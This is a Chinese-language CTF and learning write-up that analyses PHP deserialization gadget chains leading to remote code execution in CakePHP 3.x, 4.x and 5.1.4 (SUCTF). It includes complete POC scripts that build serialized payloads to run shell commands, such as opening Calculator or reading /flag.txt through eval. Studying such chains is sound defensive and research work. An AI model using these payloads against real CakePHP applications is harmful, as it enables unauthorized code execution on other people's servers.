








# CakePHP 新版 RCE 调用分析寻找-先知社区

> **来源**: https://xz.aliyun.com/news/16649  
> **文章ID**: 16649

---

# CakePHP 新版 RCE 调用分析寻找

## 前言

最近遇到了CakePHP 的反序列化调用链的寻找，正好来学习一下如何寻找 php 语言的反序列化

## 环境搭建

给了我们源码，小皮直接搭建就好了

## 老版本利用链分析

为什么需要分析老版本，新版本其实一般就是类似于  
a--b 然后给你截断了变成  
a--c--b

类似于这种逻辑，而老版本一般都可以给我们大部分的思路

主要我们分析逻辑，细节点老版本和新版本差不多

参考<https://blog.csdn.net/why811/article/details/133812903，来分析一下历史调用链的逻辑点，主要是> sink 点到 source 的过程

### 3.x ≤ 3.9.6 版本

php 的话反序列化其实思路是比较固定的，入手方法一般都是\_\_destruct

这里我们看到 Process 的\_\_destruct 方法

```
public function __destruct()
{
    if ($this->options['create_new_console'] ?? false) {
        $this->processPipes->close();
    } else {
        $this->stop(0);
    }
}
```

我们跟进 stop 方法

```
public function stop(float $timeout = 10, int $signal = null)
{
    $timeoutMicro = microtime(true) + $timeout;
    if ($this->isRunning()) {
        // given SIGTERM may not be defined and that "proc_terminate" uses the constant value and not the constant itself, we use the same here
        $this->doSignal(15, false);
        do {
            usleep(1000);
        } while ($this->isRunning() && microtime(true) < $timeoutMicro);

        if ($this->isRunning()) {
            // Avoid exception here: process is supposed to be running, but it might have stopped just
            // after this line. In any case, let's silently discard the error, we cannot do anything.
            $this->doSignal($signal ?: 9, false);
        }
    }

    if ($this->isRunning()) {
        if (isset($this->fallbackStatus['pid'])) {
            unset($this->fallbackStatus['pid']);

            return $this->stop(0, $signal);
        }
        $this->close();
    }

    return $this->exitcode;
}
```

然后跟进 isRunning 方法

```
public function isRunning()
{
    if (self::STATUS_STARTED !== $this->status) {
        return false;
    }

    $this->updateStatus(false);

    return $this->processInformation['running'];
}
```

这里的 if 判断很简单  


让 status 的值等于 started 即可

然后跟进 updateStatus 方法

```
protected function updateStatus(bool $blocking)
{
    if (self::STATUS_STARTED !== $this->status) {
        return;
    }

    $this->processInformation = proc_get_status($this->process);
    $running = $this->processInformation['running'];

    $this->readPipes($running && $blocking, '\' !== \DIRECTORY_SEPARATOR || !$running);

    if ($this->fallbackStatus && $this->isSigchildEnabled()) {
        $this->processInformation = $this->fallbackStatus + $this->processInformation;
    }

    if (!$running) {
        $this->close();
    }
}
```

这里会调用 readPipes 方法，而这个方法也是我们调用 call 的关键

```
private function readPipes(bool $blocking, bool $close)
{
    $result = $this->processPipes->readAndWrite($blocking, $close);

    $callback = $this->callback;
    foreach ($result as $type => $data) {
        if (3 !== $type) {
            $callback(self::STDOUT === $type ? self::OUT : self::ERR, $data);
        } elseif (!isset($this->fallbackStatus['signaled'])) {
            $this->fallbackStatus['exitcode'] = (int) $data;
        }
    }
}
```

很明显的代码

```
$result = $this->processPipes->readAndWrite($blocking, $close);
```

而且 processPipes 是我们可以控制的，调用任意类的 call 方法，我们全局寻找 call 方法



来到 Table.php 类

```
public function __call($method, $args)
{
    if ($this->_behaviors && $this->_behaviors->hasMethod($method)) {
        return $this->_behaviors->call($method, $args);
    }
    if (preg_match('/^find(?:\w+)?By/', $method) > 0) {
        return $this->_dynamicFinder($method, $args);
    }

    throw new BadMethodCallException(
        sprintf('Unknown method "%s"', $method)
    );
}
```

因为\_behaviors 属性是我们可以控制的，可以调用类的 call 方法  
然后也是全局查找

在 BehaviorRegistry.php 中

```
public function call($method, array $args = [])
{
    $method = strtolower($method);
    if ($this->hasMethod($method) && $this->has($this->_methodMap[$method][0])) {
        list($behavior, $callMethod) = $this->_methodMap[$method];

        return call_user_func_array([$this->_loaded[$behavior], $callMethod], $args);
    }

    throw new BadMethodCallException(
        sprintf('Cannot call "%s" it does not belong to any attached behavior.', $method)
    );
}
```

这里离我们成功又近了一步，可以调用任意类的任意方法，但是 args 不可以控制

我们需要寻找一个不需要控制参数就能恶意利用的方法

而我们的 ServerShell.php 中有一个完美的方法

```
public function main()
{
    $command = sprintf(
        'php -S %s:%d -t %s',
        $this->_host,
        $this->_port,
        escapeshellarg($this->_documentRoot)
    );

    if (!empty($this->_iniPath)) {
        $command = sprintf('%s -c %s', $command, $this->_iniPath);
    }

    $command = sprintf('%s %s', $command, escapeshellarg($this->_documentRoot . '/index.php'));

    $port = ':' . $this->_port;
    $this->out(sprintf('built-in server is running in http://%s%s/', $this->_host, $port));
    $this->out(sprintf('You can exit with <info>`CTRL-C`</info>'));
    system($command);
}

```

虽然说我们的 command 只可以控制一部分，但是只需要；号分割就 ok 了

POC

```
<?php
namespace Cake\Core;
abstract class ObjectRegistry
{
    public $_loaded = [];
}
 
 
namespace Cake\ORM;
class Table
{
    public $_behaviors;
}
 
use Cake\Core\ObjectRegistry;
class BehaviorRegistry extends ObjectRegistry
{
    public $_methodMap = [];
    protected function _resolveClassName($class){}
    protected function _throwMissingClassError($class, $plugin){}
    protected function _create($class, $alias, $config){}
}
 
 
namespace Cake\Console;
class Shell
{
    public $_io;
}
 
class ConsoleIo
{
    public $_level;
}
 
namespace Cake\Shell;
use Cake\Console\Shell;
class ServerShell extends Shell
{
    public $_host;
    protected $_port = 0;
    protected $_documentRoot = "";
    protected $_iniPath = "";
}
 
 
namespace Symfony\Component\Process;
use Cake\ORM\Table;
class Process
{
    public $processPipes;
}
 
 
$pop = new Process([]);
$pop->status = "started";
$pop->processPipes = new Table();
$pop->processPipes->_behaviors = new \Cake\ORM\BehaviorRegistry();
$pop->processPipes->_behaviors->_methodMap = ["readandwrite"=>["servershell","main"]];
$a = new \Cake\Shell\ServerShell();
$a->_io = new \Cake\Console\ConsoleIo();
$a->_io->_level = 0;
$a->_host = ";open /System/Applications/Calculator.app;";
$pop->processPipes->_behaviors->_loaded = ["servershell"=>$a];
 
echo base64_encode(serialize($pop));
```

### 4.x ≤ 4.2.3

这个版本的改动就是 sink 点

因为 ServerShell 类被修改了

这里老前辈们发现的是 CallbackStatement.php 类

```
public function fetch($type = parent::FETCH_TYPE_NUM)
{
    $callback = $this->_callback;
    $row = $this->_statement->fetch($type);

    return $row === false ? $row : $callback($row);
}
```

可以调用任意的 fetch 方法  


还是一样的很多

这里使用 BufferedStatement 的

```
public function fetch($type = self::FETCH_TYPE_NUM)
{
    if ($this->_allFetched) {
        $row = false;
        if (isset($this->buffer[$this->index])) {
            $row = $this->buffer[$this->index];
        }
        $this->index += 1;

        if ($row && $type === static::FETCH_TYPE_NUM) {
            return array_values($row);
        }

        return $row;
    }

    $record = $this->statement->fetch($type);
    if ($record === false) {
        $this->_allFetched = true;
        $this->statement->closeCursor();

        return false;
    }
    $this->buffer[] = $record;

    return $record;
}
```

可以看到 `$this->buffer、$this->index、$this->_allFetched` 全是我们的可控点，$row 相对于我们是可以控制的

POC

```
<?php
namespace Cake\Core;
abstract class ObjectRegistry
{
    public $_loaded = [];
}
 
 
namespace Cake\ORM;
class Table
{
    public $_behaviors;
}
 
use Cake\Core\ObjectRegistry;
class BehaviorRegistry extends ObjectRegistry
{
    public $_methodMap = [];
    protected function _resolveClassName(string $class): ?string{
        return $class;
    }
    protected function _throwMissingClassError(string $class, ?string $plugin): void{}
    protected function _create($class, $alias, $config){}
}
 
 
namespace Cake\Database\Statement;
class StatementDecorator {
    public $_statement;
}
 
class CallbackStatement extends StatementDecorator
{
    public $_callback;
}
 
class BufferedStatement
{
    public $_allFetched;
    public $buffer = [];
    protected $index = 0;
}
 
 
namespace Symfony\Component\Process;
use Cake\ORM\Table;
class Process
{
    public $processPipes;
}
 
 
$pop = new Process([]);
$pop->status = "started";
$pop->processPipes = new Table();
$pop->processPipes->_behaviors = new \Cake\ORM\BehaviorRegistry();
$pop->processPipes->_behaviors->_methodMap = ["readandwrite"=>["callbackstatement","fetch"]];
$a = new \Cake\Database\Statement\CallbackStatement($statement, $driver,"");
$a->_callback = "system";
$a->_statement = new \Cake\Database\Statement\BufferedStatement($statement, $driver);
$a->_statement->_allFetched = true;
$a->_statement->buffer = ["open /System/Applications/Calculator.app"];
$pop->processPipes->_behaviors->_loaded = ["callbackstatement"=>$a];
 
echo base64_encode(serialize($pop));
```

## SUCTF 新版本

这次给的版本是 5.1.4

这里搭建环境需要注意的是

把给出的文件做相应的替换，具体在哪里替换可以看写的 dockerfile



参考<https://blog.s1um4i.com/2025-SUCTF/#su_pop>

我们还是来研究一下逻辑

POC 如下

```
<?php
namespace Cake\Core;
abstract class ObjectRegistry
{
    protected array $_loaded = [];
}


namespace Cake\ORM;
class Table
{
    protected $_behaviors;
    public function __construct($obj)
    {
        $this->_behaviors = $obj;
    }
}

use Cake\Core\ObjectRegistry;
class BehaviorRegistry extends ObjectRegistry
{
    protected array $_methodMap = [];
    public function __construct($obj)
    {
        $this->_methodMap = ["rewind"=>["MockClass","generate"]];
        $this->_loaded = ["MockClass"=>$obj];;
    }
}

namespace PHPUnit\Framework\MockObject\Generator;
class MockClass{
    private string $mockName;
    private string $classCode;
    public function __construct(string $classCode, string $mockName)
    {
        $this->classCode           = $classCode;
        $this->mockName            = $mockName;
    }

}
namespace Seld\Signal;
class SignalHandler {
    private $signals;

}
namespace React\Promise\Internal;
class RejectedPromise{
    private $reason;
    private $handled = false;
    public function __construct($obj)
    {
        $this->reason = $obj;
    }
}

namespace Cake\Http;
class Response{
    private $stream;
    public function __construct($obj)
    {
        $this->stream = $obj;
    }
}


$a = new \PHPUnit\Framework\MockObject\Generator\MockClass(
    'system("find . -exec /bin/cat /flag.txt \; -quit");', "114514");
$call = new \Cake\ORM\BehaviorRegistry($a);
$__call = new \Cake\ORM\Table($call);
$tostring = new \Cake\Http\Response($__call);
$destrct = new \React\Promise\Internal\RejectedPromise($tostring);

echo base64_encode(serialize($destrct));
```

很明显的是我们的 source 点已经变了

看到 RejectedPromise 类

它的\_\_destruct 方法

```
public function __destruct()
{
    if ($this->handled) {
        return;
    }

    $handler = set_rejection_handler(null);
    if ($handler === null) {
        $message = 'Unhandled promise rejection with ' . $this->reason;

        \error_log($message);
        return;
    }

    try {
        $handler($this->reason);
    } catch (\Throwable $e) {
        \preg_match('/^([^:\s]++)(.*+)$/sm', (string) $e, $match);
        \assert(isset($match[1], $match[2]));
        $message = 'Fatal error: Uncaught ' . $match[1] . ' from unhandled promise rejection handler' . $match[2];

        \error_log($message);
        exit(255);
    }
```

很明显的是  


这里进行了字符串的拼接，可以调用我们的 Tostring 方法

然后全局寻找 Tostring



这里使用的是 Cake\Http\Response 类

```
public function __toString(): string
{
    $this->stream->rewind();

    return $this->stream->getContents();
}
```

其实发现它就相对于我们的中间点，触发我们的 call 方法

然后 call 的话还是 Table 类，和我们上面讲的一样

我们知道 Table 的 call 方法可以调用任意类的 call 方法

我们来到 BehaviorRegistry.php 类的 call 方法

```
public function call(string $method, array $args = []): mixed
{
    $method = strtolower($method);
    if ($this->hasMethod($method) && $this->has($this->_methodMap[$method][0])) {
        [$behavior, $callMethod] = $this->_methodMap[$method];

        return $this->_loaded[$behavior]->{$callMethod}(...$args);
    }

    throw new BadMethodCallException(
        sprintf('Cannot call `%s`, it does not belong to any attached behavior.', $method),
    );
}
```

```
return $this->_loaded[$behavior]->{$callMethod}(...$args);
```

通过调用 MockClass 的

通过控制 MockClass 类来执行我们的命令

```
public function generate(): string
{
    if (!class_exists($this->mockName, false)) {
        eval($this->classCode);

        call_user_func(
            [
                $this->mockName,
                '__phpunit_initConfigurableMethods',
            ],
            ...$this->configurableMethods,
        );
    }

    return $this->mockName;
}
```



传入到 sink 点

  
这里命令都是可以改的

然后题目环境尝试



# ​
